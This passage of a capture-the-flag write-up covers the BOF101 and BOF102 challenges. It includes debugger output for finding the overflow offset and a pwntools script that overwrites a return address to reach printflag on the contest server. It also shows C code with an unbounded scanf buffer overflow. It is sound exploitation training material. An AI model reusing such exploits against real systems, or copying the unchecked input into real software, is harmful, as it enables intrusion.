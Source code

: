     0x7fffffffdffc:	0xffffe36000007fff	0xffffe3cc00007fff
    pwndbg> cyclic -l 0x6161617361616161
    Finding cyclic pattern of 8 bytes: b'aaaasaaa' (hex: 0x6161616173616161)
    Found at offset 140

So we need to send 140 bytes of junk data then 0xdeadbeef, the ret (stack alignment) and finally printflag() address... A crucial part here is to determine the format of 0xdeadbeef, in particula we need to send ret and printflag as p64 but 0xdeadbeef as p32...
Here is the solve script:
```python
from pwn import *

elf = context.binary = ELF("./bof101")
ip, port = "bof101.sstf.site", 1337

off = 140
dead = p32(0xdeadbeef)
ret = p64(0x000000000040101a)
win = p64(elf.sym['printflag'])

#io = elf.process()
io = remote(ip, port)

pay = b"a"*140 + dead + ret + win

with open("pay", "wb") as f:
	f.write(pay)

io.sendline(pay)
io.interactive()
```

Flag = `SCTF{N0VV_U_AR3_B0F_3xpEr7}`

# BOF102
This chall was actually interesting, first because is a 32bit one (I played last on 32bits like months ago...) and also for the overwrite...
Let's analyze the code:
```c
char name[16];

void bofme() {
	char payload[16];

	puts("What's your name?");
	printf("Name > ");
	scanf("%16s", name);
	printf("Hello, %s.\n", name);

	puts("Do you wanna build a snowman?");
	printf(" > ");
	scanf("%s", payload);
	printf("!!!%s!!!\n", payload);
	puts("Good.");
}

int main() {
	system("echo 'Welcome to BOF 102!'");
	bofme();
	return 0;
}
```
So there is a system call at the start! we know that system will be in plt.